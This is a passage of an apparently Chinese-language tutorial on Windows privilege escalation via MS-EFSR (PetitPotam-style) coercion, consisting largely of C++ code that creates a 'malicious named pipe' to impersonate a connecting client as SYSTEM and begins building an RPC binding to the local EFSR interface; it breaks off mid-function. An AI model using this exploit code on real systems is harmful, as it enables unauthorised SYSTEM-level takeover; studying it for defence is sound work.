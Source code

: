 （1）首先，我编写了一个自定义函数 `LaunchNamedPipeServer()`，通过该函数创建一个命名管道 `\\\\.\\pipe\\petit\\pipe\\srvsvc`，并调用 `ConnectNamedPipe()` 函数等待客户端连接：

```c++
DWORD WINAPI LaunchNamedPipeServer(LPVOID lpParam)
{
    HANDLE hNamedPipe = NULL;
    LPWSTR lpName;
    LPWSTR lpCommandLine = (LPWSTR)lpParam;

    SECURITY_DESCRIPTOR sd = { 0 };
    SECURITY_ATTRIBUTES sa = { 0 };

    lpName = (LPWSTR)LocalAlloc(LPTR, MAX_PATH * sizeof(WCHAR));
    StringCchPrintfW(lpName, MAX_PATH, L"\\\\.\\pipe\\petit\\pipe\\srvsvc");

    if ((hNamedPipe = CreateNamedPipe(lpName, PIPE_ACCESS_DUPLEX | FILE_FLAG_OVERLAPPED, PIPE_TYPE_BYTE | PIPE_WAIT, 10, 2048, 2048, 0, &sa)))
    {
        printf("\n[+] Malicious named pipe running on %S.\n", lpName);
    }
    else
    {
        printf("[-] ImpersonateNamedPipeClient() Error: %i.\n", GetLastError());
        return 0;
    }

    if (ConnectNamedPipe(hNamedPipe, NULL) != NULL)
    {
        printf("[+] The connection is successful.\n");
    }
    else
    {
        printf("[-] ConnectNamedPipe() Error: %i.\n", GetLastError());
        return 0;
    }

    GetSystem(hNamedPipe, lpCommandLine);
    CloseHandle(hNamedPipe);

    return 0;
}
```

（2）然后，编写 `CreateRpcBinding()` 函数，用于创建 RPC 绑定供 MS-EFSR RPC 接口使用。

```c++
BOOL CreateRpcBinding(RPC_BINDING_HANDLE* hBinding)
{
    BOOL status = FALSE;
    RPC_WSTR ObjUuid = (RPC_WSTR)L"df1941c5-fe89-4e79-bf10-463657acf44d";                // Pointer to a null-terminated string representation of an object UUID. 
    RPC_WSTR ProtSeq = (RPC_WSTR)L"ncacn_np";                                            // Pointer to a null-terminated string representation of a protocol sequence.;
    RPC_WSTR NetworkAddr = (RPC_WSTR)L"\\\\127.0.0.1";                                   // Pointer to a null-terminated string representation of a network address.
    RPC_WSTR Endpoint = NULL;                                                            // Pointer to a null-terminated string representation of an endpoint.
    RPC_WSTR Options = NULL;                                                             // Pointer to a null-terminated string representation of network options.
    RPC_WSTR StringBinding;                                                              // Returns a pointer to a pointer to a null-terminated string representation of a binding handle.

    RPC_STATUS RpcStatus;

```